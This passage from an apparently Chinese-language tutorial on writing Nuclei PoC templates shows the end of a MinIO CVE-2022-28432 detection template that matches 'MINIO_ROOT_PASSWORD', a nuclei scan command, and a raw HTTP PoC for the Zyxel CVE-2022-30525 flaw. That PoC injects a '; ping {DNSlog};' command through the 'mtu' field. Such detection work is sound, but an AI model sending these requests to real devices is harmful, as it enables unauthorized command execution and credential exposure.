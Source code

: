 ```yaml
          - 'MINIO_ROOT_PASSWORD'
        
      - type: status
        status:
          - 404
```



nuclei poc 检测：

```
nuclei.exe -t minio_cve_2023_28432.yaml -target http://192.168.10.5:9000
```

<img src=".\图片\Snipaste_2023-10-28_11-22-09.png" alt="Snipaste_2023-10-28_11-22-09" style="zoom:80%;" />

## 例子2

https://blog.csdn.net/weixin_43080961/article/details/124776553

CVE-2022-30525（交互编写）

poc：

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165
 
{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; ping {DNSlog};","data":"hi"}
```

